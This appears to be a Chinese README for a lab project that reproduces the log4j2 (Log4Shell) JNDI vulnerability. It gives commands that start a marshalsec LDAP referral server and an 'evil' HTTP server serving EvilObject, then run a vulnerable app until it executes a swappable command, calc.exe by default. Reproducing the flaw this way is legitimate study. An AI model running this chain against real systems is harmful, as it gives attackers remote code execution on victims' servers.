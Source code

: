 # log4j2漏洞复现

# 模块说明
| 模块 | 说明 |
| --- | --- |
| business-app | 正常的业务应用 |
| marshalsec | 攻击方搭建，用于启动LDAP服务的开源工具，通过submodule关联 https://github.com/mbechler/marshalsec |
| evil-http-server | 攻击方搭建，启动Http服务，提供恶意代码下载 |

# 复现过程

## 1. 修改要执行的恶意代码

项目中要默认要执行的代码如下，适用于Windows下启动计算器，可以换成适用于自己系统的其他命令

```
// evil-http-server/src/main/java/EvilObject.java 第5行
String[] commands = {"calc.exe"};
```

## 2. 初始化 marshalsec

marshalsec是通过子模块关联的，需要先执行以下命令将对应的项目下载下来

```
git submodule init
git submodule update
```

## 3. 使用maven进行编译

```
mvn clean package -DskipTests
```

## 4. 启动 marshalsec

```
java -cp marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:9090/#EvilObject" 9999
```

## 5. 启动 evil-http-server

```
java -jar evil-http-server/target/evil-http-server.jar
```

## 6. 运行 business-app

```
java -jar business-app/target/business-app.jar
```

## 7. 结果

正常的结果是执行了恶意代码，默认情况下在Windows下打开了计算器。

如果没有预期的结果，可以检查一下漏洞的前提条件

* JDK的版本小于xxx
* 系统环境变量没有配置

